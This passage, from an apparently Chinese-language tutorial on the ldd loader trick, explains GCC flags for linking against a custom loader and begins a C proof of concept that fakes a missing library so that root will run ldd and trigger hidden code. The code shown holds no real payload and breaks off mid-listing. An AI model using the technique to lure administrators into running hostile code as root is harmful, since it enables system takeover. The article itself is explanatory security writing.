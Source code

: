 下面是GCC的各个参数的解释：


* **-Wl,–dynamic-linker,$L/lib/ld-uClibc.so.0** — 指定一个新的装载器。
* **-Wl,-rpath-link,$L/lib** — 指定一个首要的动态装载器所在的目录，这个目录用于查找动态库。
* **-nostdlib** — 不使用系统标准库。
* **myapp.c -o myapp** — 编译myapp.c 成可执行文件 myapp,
* **$L/usr/lib/crt\*.o** — 静态链接runtime 代码
* **-L$L/usr/lib/** — libc 的目录（静态链接）
* **-lc** —  C 库


现在让我们来运行一下我们的 `myapp` （没有ldd，一切正常）



```
app/bin$ ./myapp
Nothing.
```

LD\_TRACE\_LOADED\_OBJECTS 没有设置，所以输出 “Nothing” 。


现在，让我们来使用 `ldd` 来看看这个程序的最大的影响力，让我们以root身份来干这个事。



```
$ su
Password:
# ldd ./myapp
All your things are belong to me.
```

哈哈，我们可以看到，ldd触发了我们的恶意代码。于是，我们偷了整个系统！


#### 邪恶的程序


下面这个例子更为实际一些，如果没有`ldd` ，那程序程序会报错 “error while loading shared libraries” ，这个错误信息会引诱你去去使用 `ldd` 去做检查，如果你是root的话，那么就整个系统就玩完了。而当你可以了 `ldd` 后，它会在干完坏事后，模仿正确的`ldd`的输出，告诉你 `libat.so.0` 不存在。


下面的代码仅仅是向你展示了一下整个想法，代码还需加工和改善。



```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

/*
This example pretends to have a fictitious library 'libat.so.0' missing.
When someone with root permissions runs `ldd this_program`, it does
something nasty in malicious() function.

I haven't implemented anything malicious but have written down some ideas
of what could be done.

This is, of course, a joke program. To make it look more real, you'd have
to bump its size, add some more dependencies, simulate trying to open the
missing library, detect if ran under debugger or strace and do absolutely
nothing suspicious, etc.
*/

void pretend_as_ldd()
{
    printf("\tlinux-gate.so.1 =>  (0xffffe000)\n");
    printf("\tlibat.so.0 => not found\n");
    printf("\tlibc.so.6 => /lib/libc.so.6 (0xb7ec3000)\n");
```